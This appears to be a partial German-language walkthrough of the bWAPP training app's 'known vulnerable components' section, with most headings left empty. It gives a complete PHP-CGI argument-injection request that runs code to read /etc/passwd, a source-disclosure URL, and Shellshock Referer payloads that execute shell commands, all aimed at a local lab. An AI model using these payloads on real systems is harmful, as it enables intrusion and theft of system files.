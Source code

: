 ### // A9 - Using Known Vulnerable Components //
---
##### Buffer Overflow (Local)
---
##### Buffer Overflow (Remote)
---
##### Drupal SQL Injection (Drupageddon)
---
##### Heartbleed Vulnerability
---
##### PHP CGI Remote Code Execution
~~~
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=2; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
~~~
Hiermit kann der Inhalt ausgegeben werden:
~~~
http://localhost:8083/bWAPP/admin/phpinfo.php?-s
~~~

---
##### PHP Eval Function
---
##### phpMyAdmin BBCode Tag XSS
---
##### Shellshock Vulnerability (CGI)
Folgende Anfragen sollten modifiziert werden:
~~~
/bWAPP/cgi-bin/shellshock.sh
~~~

~~~
Referer: () { nothing;}; /bin/touch /tmp/malicious
~~~

~~~
Referer: () { nothing;}; /bin/touch /etc/passwd
~~~


---
##### SQLiteManager Local File Inclusion
---
##### SQLiteManager PHP Code Injection
---
##### SQLiteManager XSS
